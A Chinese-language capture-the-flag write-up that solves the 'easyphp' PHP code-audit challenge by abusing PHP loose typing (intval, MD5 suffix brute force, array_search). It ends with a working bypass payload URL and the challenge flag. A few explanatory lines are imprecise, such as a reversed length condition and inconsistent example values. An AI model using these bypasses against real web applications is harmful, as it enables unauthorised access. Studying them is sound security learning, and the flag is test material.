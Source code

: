# php 代码审计

> 题目 攻防世界easyphp

* __看题__

题目如图，很密密麻麻一串代码

![image](https://github.com/uicciu/image/blob/main/PHP%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A11.png)

* __思路__

> 几个重点条件函数

```php
1. if(isset($a) && intval($a) > 6000000 && strlen($a) <= 3)
2. if(isset($b) && '8b184b' === substr(md5($b),-6,6))
3. $c=(array)json_decode(@$_GET['c']);
    if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022)
4.if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0]))
       $d = array_search("DGGJ", $c["n"]);
        $d === false?die("no..."):NULL;
5.foreach($c["n"] as $key=>$val){
            $val==="DGGJ"?die("no......"):NULL;
        }
        $key2 = 1;
```

* __求解__

### 1.if(isset($a) && intval($a) > 6000000 && strlen($a) <= 3)

意味：$a存在并且数值大于该数，且a的长度大于等于3

> function intval()

intval — Get the integer value of a variable

Note:

If base is 0, the base used is determined by the format of value:

1. if string includes a "0x" (or "0X") prefix, the base is taken as 16 (hex); otherwise,

2. if string starts with "0", the base is taken as 8 (octal); otherwise,
the base is taken as 10 (decimal).

>example

```php
<?php
echo intval(42);                      // 42
echo intval(4.2);                     // 4
echo intval('42');                    // 42
echo intval('+42');                   // 42
echo intval('-42');                   // -42
echo intval(042);                     // 34
echo intval('042');                   // 42
echo intval(1e10);                    // 1410065408
echo intval('1e10');                  // 1
echo intval(0x1A);                    // 26
echo intval(42000000);                // 42000000
echo intval(420000000000000000000);   // 0
echo intval('420000000000000000000'); // 2147483647
echo intval(42, 8);                   // 42
echo intval('42', 8);                 // 34
echo intval(array());                 // 0
echo intval(array('foo', 'bar'));     // 1
echo intval(false);                   // 0
echo intval(true);                    // 1
?>
```

所以$a=1e9/8/7

### 2.if(isset($b) && '8b184b' === substr(md5($b),-6,6))

意味：b非空且b的md5值最后六位为'8b184b'

自出脚本：

```php
<?php
$b=0;
while(1)
{
  if('8b184b' === substr(md5($b),-6,6)){
    echo $b;
    break;
}
$b++;
}
?>
```
结果如下：

$b=53724

### 3.$c=(array)json_decode(@$_GET['c']);

意味：c是一个json编码的array，先放一下

### 3.（2）if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022)

意味：$c是一个array类，c的m键不是数字，值要大于2022

放一个例子：

> '123a'和一个整数作比较时，它会转换成123；'a123'和整数作比较时，由于第一个位置是a，非整数，php则规定其值为0，即变成了0和123比较

得到结果：

c:{"m":"2023a"}

### 4. if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0]))

意味：c还含有一个n键，是array类，并且有两个元素，第一个元素还是数组

结果得到：

单看4，认为$c["n"][0]="DGGJ"

### 5. $val==="DGGJ"?die("no......"):NULL;

感觉4，5，矛盾，所以应该绕过array_search()函数

> function array_search()

array_search — Searches the array for a given value and returns the first corresponding key if successful

存在PHP的弱类型比较 ==与===的区别

由于其应用==，我们与无数字字符串比较只要保证比较的值为0即可

因此得出结论：c中第二个值为0

最后根据json编码格式对c进行编码即可。

* __提交__

得到payload：http://ip:port/?a=1e9&b=53724&c={"m":"12345a","n":[[],0]}

夺得flag：cyberpeace{2f87e8aeec5e1909dc7f3dad473b7cd1}
